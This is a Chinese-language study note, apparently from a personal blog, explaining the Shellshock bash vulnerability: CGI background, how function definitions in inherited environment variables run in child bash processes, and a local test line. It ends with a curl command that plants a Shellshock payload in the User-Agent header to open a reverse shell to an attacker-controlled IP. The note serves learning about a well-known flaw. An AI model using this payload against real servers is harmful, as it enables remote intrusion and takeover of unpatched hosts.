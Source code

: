 # shellshock  

本质就是一个bash的本地提权漏洞  

## 前置知识 
CGI  
基于浏览器的输入，然后在WEB服务器运行程序，让浏览器与用户产生交互，后台处理程序使用脚本语言解释执行用户端的请求

最初的时候 以为这个漏洞只是一个本地的提权漏洞并不能有什么暖用  
但是后面发现在一些linux服务器上使用了bash执行cgi的命令 所以我们可以通过导入

在bash环境当中再进行bash的时候(也就是创造bash子进程的时候，新的子进程会读取父进程的环境变量)，如果环境变量当中存在注入的命令也会进行执行

漏洞的本质就是在bash当中创建子bash的时候，子bash会运行父bash当中环境变量注入的代码

**影响范围**    
4.1之前的bash版本


## 复现以及分析  
在有问题的主机上执行命令
![20211027000910](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211027000910.png)
在没有问题的主机上执行命令  
![20211027000917](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211027000917.png)
前置知识   
bash和我们操作的shell 不是一个东西  
在shell 当中可以定义函数 然后使用export -f 导入环境变量当中 这样在bash就会执行所定义的函数了  
定义一个函数   
直接输入  foo(){ echo "eoc"; }  
bash的一个特性    
变量和函数在环境变量当中的表现形式是一样的  
这里有一个bash的bug 不管是变量还是函数在bash当中环境变量的表现形式都是一样的   
 ![20211027000945](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211027000945.png)
注意这个的存在之能是 export 之后的bash  
在bash当中创建一个子bash的时候，子bash会读取父bash当中的环境变量  
可以清楚地看到就算创建了在一个bash当中创建了另外一个bash，的确bash当中的环境变量会进行遗传  
我们的漏洞就是在这里 如果一个bash当中的环境变量当中存在注入的代码的话，在该bash创建子bash的时候就会执行bash当中注入的代码  
![20211027001011](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211027001011.png)
注意其中的空格符号 差一个空格会出错  
```
export a='() { echo "rock"; }; id'  
```
如果是一个正常的bash不存在bug  
![20211027001045](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211027001045.png)
远程提权
在CGI当中很多环境变量都是由外部的数据进行规定的，所以我们可以控制我们的HTTP请求头 UA等文件执行我们想要其执行的数据文件   
```
curl -A '() { :; }; /usr/local/bash-4.3.0/bin/bash -i >& /dev/tcp/192.168.1.77/1234 0>&1' http://192.168.1.75:8080/victim.cgi
```
有时候行 有时候不行  
## refer 

https://coolshell.cn/articles/11973.html